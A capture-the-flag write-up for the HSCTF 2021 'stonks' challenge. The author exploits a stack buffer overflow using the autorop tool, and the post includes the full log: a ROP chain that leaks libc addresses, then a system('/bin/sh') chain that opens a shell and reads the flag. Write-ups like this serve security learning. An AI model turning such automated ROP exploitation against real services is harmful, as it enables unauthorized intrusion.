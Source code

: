 # stonks (231 solves, 391 points)

## Description  
check out my cool stock predictor!

`nc stonks.hsc.tf 1337`

## Solution  
Disclosure: There is no technical "pwning" done in this solution since we're
bad at pwn

Once we connect, we can do some initial fuzzing with different characters and
lengths, and we find that we can crash it with a simple buffer overflow (which
explains the large # of solves as well). Now, we could go into gdb and write
an exploit manually, but since I'm a script kiddie I decided to use
[autorop](https://github.com/mariuszskon/autorop) which is a great tool for
simple pwns like this. Following the syntax, we are brought to an interactive
shell as shown below.

```  
pranav@pranav-VirtualBox:~/Desktop/autorop$ autorop chal stonks.hsc.tf 1337  
[*] '/home/pranav/Desktop/autorop/chal'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    No canary found  
   NX:       NX enabled  
   PIE:      No PIE (0x400000)  
[+] Opening connection to stonks.hsc.tf on port 1337: Done  
[*] Produced pipeline: pipeline_instance(<function corefile at
0x7f44081168b0>, <function puts at 0x7f4408116b80>, <function auto at
0x7f4408116dc0>, <function system_binsh at 0x7f4408116a60>)  
[*] Pipeline [1/4]: corefile  
[!] Could not find executable 'chal' in $PATH, using './chal' instead  
[+] Starting local process './chal': pid 3380  
[*] Process './chal' stopped with exit code -11 (SIGSEGV) (pid 3380)  
[+] Receiving all data: Done (57B)  
[!] Error parsing corefile stack: Found bad environment at 0x7ffda6504fdd  
[+] Parsing corefile...: Done  
[*] '/home/pranav/Desktop/autorop/core.3380'  
   Arch:      amd64-64-little  
   RIP:       0x4012c2  
   RSP:       0x7ffda6503838  
   Exe:       '/home/pranav/Desktop/autorop/chal' (0x400000)  
   Fault:     0x6161616161616166  
[*] Fault address @ 0x6161616161616166  
[*] Offset to return address is 40  
[*] Pipeline [2/4]: puts  
[+] Opening connection to stonks.hsc.tf on port 1337: Done  
[*] Loaded 14 cached gadgets for 'chal'  
[*] 0x0000:         0x40101a ret  
   0x0008:         0x401363 pop rdi; ret  
   0x0010:         0x403ff0 [arg0] rdi = __libc_start_main  
   0x0018:         0x401094 puts  
   0x0020:         0x40101a ret  
   0x0028:         0x401363 pop rdi; ret  
   0x0030:         0x404018 [arg0] rdi = got.puts  
   0x0038:         0x401094 puts  
   0x0040:         0x40101a ret  
   0x0048:         0x4012c3 main()  
[*] leaked __libc_start_main @ 0x7f87508b1fc0  
[*] leaked puts @ 0x7f87509125a0  
[*] Pipeline [3/4]: auto  
[*] Searching for libc based on leaks using libc.rip  
[!] 6 matching libc's found, picking first one  
[*] Downloading libc  
[*] '/home/pranav/Desktop/autorop/.autorop.libc'  
   Arch:     amd64-64-little  
   RELRO:    Partial RELRO  
   Stack:    Canary found  
   NX:       NX enabled  
   PIE:      PIE enabled  
[*] Pipeline [4/4]: system_binsh  
[*] Loaded 201 cached gadgets for '.autorop.libc'  
[*] 0x0000:         0x40101a ret  
   0x0008:         0x401363 pop rdi; ret  
   0x0010:   0x7f8750a425aa [arg0] rdi = 140219150247338  
   0x0018:         0x4010a4 system  
   0x0020:         0x40101a ret  
   0x0028:         0x4012c3 main()  
[*] Switching to interactive mode  
Please enter the stock ticker symbol: aaaaaaaabaaaaaaacaaaaaaadaaa\x06will
increase by $6 today!  
$ ls  
bin  
boot  
dev  
etc  
flag  
home  
lib  
lib32  
lib64  
libx32  
media  
mnt  
opt  
proc  
root  
run  
sbin  
srv  
sys  
tmp  
usr  
var  
$ cat flag  
flag{to_the_moon}  
```  
As shown above, once we get to the interactive shell, all we have to do is
`ls` and  `cat flag`, allowing us to solve this challenge in under a minute.
Clearly, sometimes being a script kiddie does pay off.

## Flag  
`flag{to_the_moon}`

Original writeup (https://github.com/BASHing-thru-
challenges/HSCTF-2021-Writeups/tree/main/pwn/stonks).